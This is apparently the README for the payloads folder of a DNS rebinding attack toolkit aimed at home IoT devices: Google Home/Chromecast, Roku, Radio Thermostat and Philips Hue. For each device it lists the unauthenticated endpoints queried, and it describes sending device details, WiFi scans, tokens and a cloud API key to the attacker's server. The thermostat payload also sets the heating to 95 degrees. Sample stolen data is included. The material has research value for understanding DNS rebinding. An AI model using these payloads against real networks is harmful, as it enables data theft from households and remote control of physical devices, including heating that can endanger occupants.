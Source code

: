 # Common Payloads

The `payloads/` folder contains a small collection of payloads written for common home IoT devices.

- `google-home.html`: A payload that targets [Google Home's undocumented REST API](https://rithvikvibhu.github.io/GHLocalApi/). This API is supported by several Google Home products, like Chromecast, certain smart TVs, and of course the Google Home and Google Home Mini.
- `roku-info.html`: [Roku's External Control API](https://sdkdocs.roku.com/display/sdkdoc/External+Control+API) allows direct control over the device via an unauthenticated REST API. There is plenty of fun to be had here.
- `radio-thermostat.html`: The [WiFi Radio Thermostat CT50 & CT80](https://github.com/brannondorsey/radio-thermostat) don't require [any authentication](https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2013-022/?fid=3870) to their REST APIs. This payload exploits this vulnerability and sets the building temperature to 90 degrees and exfiltrates a cloud API key.
- `phillips-hue.html`: Detect the presence of a Phillips Hue Bridge lighting system and exfiltrate basic information about the device.

## Google Home

Chromecast has been using an undocumented API served on port 8008 [since at least 2013](http://fiquett.com/2013/07/chromecast-traffic-sniffing/). Recently [Rithvik Vibhu](https://github.com/rithvikvibhu/) did a bang up job [documenting the hell out of it](https://rithvikvibhu.github.io/GHLocalApi). When they rolled out their line of Google Home products it appears they have also integrated the same API into those products as well. `payloads/google-home.html` exploits a few of these API calls to exfiltrate information about the Chromecast device and its surrounding WiFi networks to `server.js`. Specifically, it makes GET requests to the following URLs:

```bash
# assuming a Google Home device is present at 192.168.1.24

# get basic information about the device
http://192.168.1.24:8008/setup/eureka_info?params=version,audio,name,build_info,detail,device_info,net,wifi,setup,settings,opt_in,opencast,multizone,proxy,night_mode_params,user_eq,room_equalizer

# get a list of nearby wifi networks from a recent WiFi scan
http://192.168.1.24:8008/setup/scan_results

# get a mysterious access token. Idk what it is used for?
http://192.168.1.24:8008/setup/offer
```

The payload combines the results of these three queries into on JSON object and uploads it to `server.js` where it is saved in the `data/` directory.

[Here](https://pastebin.com/U3tUqmRf) is an example of the JSON file created by my chromecast at home.

## Roku

The [Roku External Control API](https://sdkdocs.roku.com/display/sdkdoc/External+Control+API) provides unauthenticated control of the entertainment device. `payloads/roku-info.html` exfiltrates information about the device as JSON to `server.js`. 

```bash
# assuming a Roku device is present at 192.168.1.88

# get basic device info
http://192.168.1.88:8060:query/device-info

# get a list of all apps on the device
http://192.168.1.88:8060:query/apps
```

Full device control is available over this API. You can open apps, play content, and control keypresses. I'll leave it up to someone else to write experiment with this functionality ;) PRs welcome!

Here is an example of Roku data exfiltrated using [`payloads/roku-info.html`](https://pastebin.com/WSv5egcY).

**Note**: The exfiltrated data is served as XML from the Roku device, but converted to JSON by `share/xmlToJSON.min.js`. It's not pretty, but I opted for JSON consistency across exfiltrated data in this repo. A custom payload could easily be written to preserve the original XML.

## Radio Thermostat

The [Radio Thermostat CT50 & CT80](http://www.radiothermostat.com/) (perhaps other models too) support a documented REST API to control heating/cooling in your house from your LAN. This is particularly interesting because there isn't any authentication to access this API, leaving anyone on the network to have full control of the device. Daniel Crowly of Trustwave SpiderLabs [reported this vulnerability](https://web.archive.org/web/20180401193243/https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2013-022/?fid=3870) back in 2013, but the company doesn't seem to give a sh!t.

> CVE: CVE-2013-4860
> CWE: CWE-287 Improper Authentication

>When on the same network as a Radio Thermostat unit, no authentication is
required to use any part of the API. Users on the same subnet as the unit
can query and change various settings such as the operation mode, wifi
connection settings, and temperature thresholds.

This unauthenticated physical control API makes a perfect target for DNS rebind attacks from the WAN. `payloads/radio-thermostat.html` exfiltrates building temperature, basic system information, device name, network information, and a cloud API key before setting the target temperature in the house to 95 degrees.

```bash
# assuming a Radio Thermostat device is present at 192.168.1.209

# get the current temperature
http://192.168.1.209/tstat/temp

# get basic system information
http://192.168.1.209/sys

# get the device name
http://192.168.1.209/sys/name

# get info about the WiFi network the device is connected to
http://192.168.1.209/sys/network

# see if there is a cloud key sitting on this device
http://192.168.1.209/cloud

# and of course... set the temperature to 95 degrees!
http://192.168.1.209/tstat
```

The data exfiltrated by `payloads/radio-thermostat.html` is saved to `data/` and looks like this:

```json
{
    "uuid": "2002af759f67",
    "api_version": 113,
    "fw_version": "1.04.84",
    "wlan_fw_version": "v10.105576",
    "name": "TotallySecureThermostat",
    "ssid": "myWiFiNetwork",
    "bssid": "79:8e:cd:87:2c:38",
    "channel": 11,
    "security": 4,
    "ip": 1,
    "rssi": -33,
    "interval": 300,
    "url": "http://ws.radiothermostat.com/services.svc/StatIn",
    "status": 0,
    "enabled": 0,
    "authkey": "",
    "status_code": 0,
    "temp": 73.5
} 
```

See [brannondorsey/radio-thermostat](https://github.com/brannondorsey/radio-thermostat) for full documentation of this REST API.

## Phillips Hue Bridge

Up until 2016 the Phillip's Hue Bridge wireless light bulb controller could easily be controlled by an unauthenticated attacker. They've since updated their firmware to protect against this. While you can no longer control the device via a DNS rebinding attack you can still identify that a hue bridge is on the network and exfiltrate basic information about the device.

```bash
# assuming a phillips hue bridge device is present at 192.168.1.8

# get basic info about the device. Best I can tell this is the only API endpoint
# that can be accessed by an unauthenticated user. Authentication requires
# physical access.
http://192.168.1.8/api/nouser/config
```

The data exfiltrated by `payloads/phillips-hue.html` is saved to `data/` and looks like this:

```json
{
    "name": "Philips hue",
    "datastoreversion": "70",
    "swversion": "1802201122",
    "apiversion": "1.24.0",
    "mac": "00:17:88:6f:a5:91",
    "bridgeid": "001788FFFD69A591",
    "factorynew": false,
    "replacesbridgeid": null,
    "modelid": "BSB002",
    "starterkitid": ""
}
```



